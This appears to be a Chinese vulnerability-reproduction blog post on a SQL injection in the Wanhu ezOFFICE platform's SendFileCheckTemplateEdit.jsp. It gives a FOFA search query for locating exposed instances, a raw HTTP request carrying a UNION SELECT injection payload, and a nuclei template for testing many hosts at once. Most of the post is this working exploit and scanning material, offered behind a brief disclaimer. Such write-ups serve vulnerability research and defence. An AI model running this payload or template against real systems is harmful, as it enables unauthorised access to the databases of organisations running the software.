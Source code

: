# 原创
：  漏洞复现--万户ezoffice FileCheckTemplateEdit SQL注入

# 漏洞复现--万户ezoffice FileCheckTemplateEdit SQL注入

## 免责声明：

**文章中涉及的漏洞均已修复，敏感信息均已做打码处理，文章仅做经验分享用途，切勿当真，未授权的攻击属于非法行为！文章中敏感信息均已做多层打马处理。传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任，一旦造成后果请自行负责**

### 一：漏洞描述

万户ezOFFICE协同管理平台是一个综合信息基础应用平台。此系统SendFileCheckTemplateEdit.jsp存在SQL注入。

### 二：漏洞影响版本

万户ezoffice

### 三：网络空间测绘查询

fofa:<br/> `app="万户ezOFFICE协同管理平台"`

### 四：漏洞复现

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/edef090fd0a784f6452f70494776ac67.jpeg"/><br/> poc：

```
GET /defaultroot/public/iWebOfficeSign/Template/SendFileCheckTemplateEdit.jsp?RecordID=1'%20UNION%20ALL%20SELECT%20@@version%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL-- HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2762.73 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip

```

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/567d219d83c8786664bc73de3a53caf7.jpeg"/><br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/7605916fde1247629a11ed4aae020cf0.jpeg"/>

### 五：批量检测

```
id: wanhu-ezoffice-sql-inject
info:
  name: 万户ezOFFICE协同管理平台SendFileCheckTemplateEdit-SQL注入漏洞
  author: 芝士土拨鼠
  severity: high
  description: '万户ezOFFICE协同管理平台是一个综合信息基础应用平台。此系统SendFileCheckTemplateEdit.jsp存在SQL注入。'
  metadata:
    max-request: 3
    fofa-query: app="万户ezOFFICE协同管理平台"
    verified: true

http:
  - method: GET
    path:
      - "{{BaseURL}}/defaultroot/public/iWebOfficeSign/Template/SendFileCheckTemplateEdit.jsp?RecordID=1'%20UNION%20ALL%20SELECT%20@@version%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL--"
    matchers:
      - type: dsl
        dsl:
          - "status_code == 200 &amp;&amp; contains(body,'SQL')"

```
